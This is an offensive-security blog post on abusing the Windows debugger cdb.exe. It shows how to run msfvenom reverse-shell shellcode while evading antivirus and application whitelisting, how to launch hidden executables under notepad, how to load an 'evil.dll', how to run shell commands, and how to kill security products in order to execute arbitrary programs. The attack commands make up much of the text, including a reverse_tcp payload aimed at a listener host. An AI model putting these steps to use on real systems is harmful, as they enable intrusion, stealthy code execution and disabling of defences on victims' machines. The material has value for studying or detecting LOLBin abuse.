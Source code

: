 ```yaml
---
title: The Power of Cdb.exe
date: "2021-01-08"
---
```


Exploring the little known uses of cdb<!-- end -->.

I personally feel cdb doesn't get the credit it deserves, I mean it has <i>a lot</i> of uses. If I missed any use case feel free to DM me on Twitter.

# Table of Contents

1. Running Shellcode
2. Launching an Executable
3. Running a DLL
4. Executing Shell Commands
5. Terminating Security Solutions

# Running Shellcode

Exploit Monday released a great <a href="http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html">article</a> in 2016 showing how to use cdb.exe to run shellcode and bypass application whitelisting. I highly recommend you check it out before continuing along. Essentially what you're doing is:

1. Allocating RWX memory
2. Copying the shellcode to the allocated buffer
3. Executing the shellcode

There's nothing difficult about it but I felt as though the unusual shellcode syntax used by cdb may have scared off some people from trying this technique as it looks quite intimidating at first glance. Let's see how to convert regular shellcode to the one used by cdb.

## Converting the Shellcode

    #Input
    \x6a

    #Conversion
    #Strip '\x' and convert shellcode to uppercase
    #hex_counter starts at 00
    ";eb @$t0+" + hex_counter + " " + upper(strip(shellcode))

    #Output
    ;eb @$t0+00 6A

It's that easy! It's also great at evading AV detection due to its unusual format. If you're lazy like me and don't want to write a script then you're in luck, here's a usable <a href="https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/T1127-CDB.py">script</a> I found online.

## Example

1. Generate shellcode using msfvenom

        msfvenom -p window/x64/shell_reverse_tcp LHOST=10.0.0.197 LPORT=4444 -f python

2. Download the aforementioned script and replace the shellcode with yours then run the script

        python3 script.py > test.wds

3. Send it over to the target machine and use the following command

        cdb.exe -pd -cf c:\path\to\payload\test.wds -o notepad.exe

![Shellcode-Run](./shellcode_run.gif)

Notepad won't appear to the user but it is running in the background. The notepad process looks benign until you see that it's establishing a network connection, so it'd be better to use a more realistic program.

![Notepad-Network](./notepad_tcp.png)

# Launching an Executable

You can use cdb to spawn an executable as a child process. You'll need to attach cbd to a running process, I'll be using notepad.

    #use -p to specify PID instead
    cdb.exe -pd -pn notepad.exe -a "c:\users\mr.d0x\desktop\out.exe"

    #When it hits any breakpoint press 'g'
    ntdll!DbgBreakPoint:
    00007ffb`58a60120 cc
    0:003> g

![Launch-Executable](./launch_exe.gif)

Looking at Process Hacker we see cdb spawning the executable as a child process.

![Child-Process](./child_processes.png)

## Detaching The Executable

You can also hit CTRL+C then 'q' in the cdb console and it'll exit cdb without impacting the executable or the process it's attached to, thanks to the -pd flag. The downside of doing that is losing cdb as the parent process.

![No-Parent](./no_parent.png)

# Running a DLL

You can use cdb to load a DLL. The DLL is loaded inside cdb not the attached process. The downside of this technique is it won't work if you don't have the rest of the debugger tools because it requires additional DLLs that are located inside the directory.

To execute a DLL, first attach cdb to any process.

    cdb.exe -pd -pn notepad.exe

Then use the .load command and specify the full path to your DLL.

    .load c:\path\to\dll\evil.dll

![DLL-Injection](./dll_injection.gif)

If we look at the DLLs loaded by cdb we see our inject DLL, d32lib.dll.

![Cdb-DLLs](./dll_cdb.png)

# Executing Shell Commands

Again, attach cdb to any process.

    cdb.exe -pd -pn notepad.exe

Use .shell to run a shell command.

    .shell ping 127.0.0.1

![Shell-Cmd](./shell_command.png)


In Process Hacker we can see that cdb spawns cmd.exe to run these commands.

![Cdb-Children-Processes](./spawn.png)

# Terminating Security Solutions

Have you ever tried to stop a security solution? If you did then you probably got something like this:

![Access-Denied](./access_denied.png)

How can cdb help? If you can get cdb to attach to a process then you can cause it to terminate. I used this unorthodox technique against an application whitelisting tool that shall remain unnamed. It caused the process to terminate which gave me a window of about 30 seconds to run any executable I wanted.

    #Run this as administrator
    #If you don't get 'Access denied' then just press 'q'
    #The attached process will then terminate
    cdb.exe -p <PID>

# References

* http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html
* https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/T1127-CDB.py
* https://fortynorthsecurity.com/blog/how-to-bypass-wdac-with-dbgsrv-exe/

# Acknowledgement

Shout out to <a href="https://www.instagram.com/spooky_sec/">@spooky_sec</a> for helping me out in running some of these tests. Follow him on Instagram for good reverse engineering posts.

